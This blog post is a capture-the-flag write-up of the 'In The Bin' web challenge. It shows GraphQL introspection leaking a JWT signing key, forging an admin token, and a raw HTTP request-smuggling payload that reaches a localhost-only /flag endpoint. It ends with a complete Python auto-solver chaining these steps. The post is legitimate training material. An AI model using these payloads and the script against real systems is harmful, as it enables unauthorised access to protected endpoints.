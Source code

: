 ```yaml
---
layout: post
title: ISSessionsCTF - "In The Bin" - GraphQL, JWT, Request Smuggling
---
```


### Introduction & Discovery
I'm writing this post as the ISSessions 2025 CTF comes to its conclusion. There is many great challenges worth writing about, but this write-up will be focused on my solution and first-blood to the KPMG sponsored challenge, `"In The Bin"`. I found this challenge to be the most unique out of the bunch.

![Photo of In The Bin](https://i.imgur.com/tAZUoxy.png)

The description is vague, just a reference to authentication tokens and a link to check out. Visiting the URL greets you with a fairly sterotypical corporate website design for all your construction container needs.

![Photo of home page](https://i.imgur.com/aBomWca.png)

As always, I poked around the website, looking at the HTML, JavaScript, CSS, and HTTP response headers for any interesting information which may help narrow down potential vulnerabilities. From this, I came across two links on the website with GraphQL and API documentation.
![https://issessionsctf-web-kpmg.chals.io/dev-old](https://i.imgur.com/y3x9Z3d.png)
![https://issessionsctf-web-kpmg.chals.io/graphql-docs](https://i.imgur.com/RfO2EF3.png)

Along with this, basic directory enumeration was able to discover two hidden endpoints which return error 403 on GET requests.
1. `/flag`
2. `/protected`

Maybe once we figure out the authentication issues, we can revisit this.

### Investigating GraphQL
I've only submitted two bugs at this point related to breaking GraphQL implementations, so I'm still quite new to it all. I referenced some queries on [HackTricks which can be found here](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/graphql.html), using introspection to discover schema information with which gave me the following to work with:

{% highlight javascript %}
{
	"__schema": {
		"types": [{
			"fields": [{
				"name": "endpointInfo"
			}, {
				"name": "randomFact"
			}, {
				"name": "secretHint"
			}],
			"name": "Query"
		}, {
			"fields": [{
				"name": "jwtConfig"
			}, {
				"name": "generateToken"
			}, {
				"name": "debugLog"
			}, {
				"name": "generateKey"
			}],
			"name": "Mutation"
		}
		/* ... removed large portion of the response for clarity ... */
	}
}
{% endhighlight %}

This indicated to me that some of the "available queries" such as `passwordReset` and `loginActivity` were not actually available for usage. The most interesting of the bunch was `debugLog`, so I crafted the following HTTP request to be sent to the GraphQL endpoint.

{% highlight http %}
POST /graphql HTTP/1.1
Host: issessionsctf-web-kpmg.chals.io
Content-Type: application/json
Content-Length: 57

{
  "query": "mutation { debugLog(level: \"INFO\") }"
}
{% endhighlight %}

![Debug Log Result](https://i.imgur.com/zLutIWt.png)
The result of this request was huge, including things such as debugging information, authentication information, and general logging. Going over this information my eye was caught by this base64 string highlighted in the image above. Decoding the string gave me the following plaintext:

{% highlight graphql %}
mutation { jwtConfig(key: "SECRET_REQUEST")}
{% endhighlight %}

Of course, I had to run this to see what it gives me:
![Secret request???](https://i.imgur.com/EIiDj3y.png)

Bingo! This looks like a secret key for signing their JWT tokens... Time to learn more about the authentication mentioned in the description.

### Investigating the API and tokens
I tested all the API endpoints, all except one returned the status of 404 with the message `"Route to /${path} is not found"`. Out of the list, `/auth/tokens` was the only one which responded to a GET or POST request. Here is what the result of that looked like.
![TOKENS!](https://i.imgur.com/PV9CAY2.png)

The tokens appear to be broken or expired, with the bottom one belonging to an admin account. The signature of this token includes an `&` symbol which is not valid base64.

From the hint at the start of the JSON response, I decided to try and fix this token by re-signing it with my newly obtained key from the JWT config. [jwt.io](https://jwt.io) is a great resource for modifying JWT tokens, so that is what I used.
![Resigning the token](https://i.imgur.com/DlP7qn0.png)

If you recall from the very start, there is still those pesky `/flag` and `/protected` endpoints which required authentication. I set my newly crafted token using the `Authorization` header in my requests and tried to make a request again.

`/flag` returned the following. It appears that it will only accept requests which are coming from the server which this is running on.
![Flag endpoint result](https://i.imgur.com/SPg38MZ.png)

`/protected` on the other hand returned a hint, something about smuggling happening with the containers.
![Protected endpoint result](https://i.imgur.com/84Ge0NH.png)

Embarrasingly to admit, I initally thought this may have been a reference to steganography and "smuggling secrets" from the images found on the homepage. I then come to learn that this was not the case, this message is a reference to [HTTP request smuggling attacks](https://portswigger.net/web-security/request-smuggling).

### Smuggling!
The plan of action is the send a smuggling request to `/protected`, and tricking the server into giving us the response to `/flag`. This part was quite tedious as when you send an invalid request, the webserver will restart and give you a new private key for the JWT token. After quite a bit of time tweaking headers such as content length & trying different options like GET / POST to `/flag`, I was able to craft this payload. I set the `Host` header of the smuggled HTTP request to be `localhost` as a request from internally is required to get a valid response.

{% highlight http %}
POST /protected HTTP/1.1
Host: issessionsctf-web-kpmg.chals.io
Content-Type: application/x-www-form-urlencoded
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwidXNlciI6ImFkbWluIiwiaWF0IjoxNTE2MjM5MDIyfQ.Sr-OG-sOYCvuA_cLAas2R5I3onI_csZ9sNKPrwJtmF0
Content-Length: 215

0

GET /flag HTTP/1.1
Host: localhost
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwidXNlciI6ImFkbWluIiwiaWF0IjoxNTE2MjM5MDIyfQ.Sr-OG-sOYCvuA_cLAas2R5I3onI_csZ9sNKPrwJtmF0
{% endhighlight %}

![FLAG FOUND!](https://i.imgur.com/E8cIWXt.png)

There, we got the flag, along with first-blood on the challenge! `bhbureauctf{Sh1pp3d_4nd_D3l1v3r3d_Succ3ssfu11y___}`

I didn't dive too deep into how an HTTP request smuggling attack works. If you are interested in learning more about this rare attack vector, [here is the post written by p4k03n4t0r which I used as reference when creating my payload.](https://github.com/p4k03n4t0r/http-request-smuggling)


### Autosolver by SK
Generously "sk" from the ISSessions CTF Discord wrote a great auto-solver script for the challenge after I shared my solution. I'd like to give a [shoutout to his GitHub](https://github.com/shivakaushal) for this.
![Autosolver](https://i.imgur.com/L5kGuOQ.png)

{% highlight python %}
import requests
import json
import jwt

graphql_url = "https://issessionsctf-web-kpmg.chals.io/graphql"
headers = {
    "Host": "issessionsctf-web-kpmg.chals.io",
    "Content-Type": "application/json",
    "Connection": "keep-alive"
}
data = {
    "query": "mutation { jwtConfig(key: \"SECRET_REQUEST\") }"
}

response = requests.post(graphql_url, json=data, headers=headers)

if response.status_code == 200:
    try:
        response_json = response.json()
        secret_key = response_json.get("jwtConfig", "").split(": ")[-1]
        print("Extracted Secret Key:", secret_key)
        
        # Original JWT payload (use last JWT from https://issessionsctf-web-kpmg.chals.io/auth/tokens)
        payload = {
            "sub": "1234567890",
            "user": "admin",
            "iat": 1516239022
        }
        
        # Resigning the JWT with the extracted secret key
        new_jwt = jwt.encode(payload, secret_key, algorithm="HS256")
        print("Resigned JWT:", new_jwt)
        
        # Use the resigned JWT to access GET /protected
        protected_url = "https://issessionsctf-web-kpmg.chals.io/protected"
        protected_headers = {
            "Authorization": f"Bearer {new_jwt}"
        }
        protected_response = requests.get(protected_url, headers=protected_headers)
        
        print("\n\nProtected Endpoint Response:", protected_response.status_code)
        print(protected_response.text)

        req_smuggling_headers = {
            "Content-Type": "application/x-www-form-urlencoded",
            "Content-Length": "50",
            "Authorization": f"Bearer {new_jwt}"
        }

        # Smuggling Payload (Chunked Transfer Encoding attack)
        smuggled_body = (
            "0\r\n"  # End of first request
            "\r\n"
            "GET /flag HTTP/1.1\r\n"
            "Host: localhost\r\n"
            f"Authorization: Bearer {new_jwt}\r\n"
        )

        smuggled_response = requests.post(protected_url, headers=req_smuggling_headers, data=smuggled_body)
        print(smuggled_response.text)

    except json.JSONDecodeError:
        print("Failed to parse JSON response")
else:
    print("Request failed with status code:", response.status_code)
    print(response.text)
{% endhighlight %}

![Hack the planet](https://media.tenor.com/K8R7LThju04AAAAC/hack-the-planet.gif)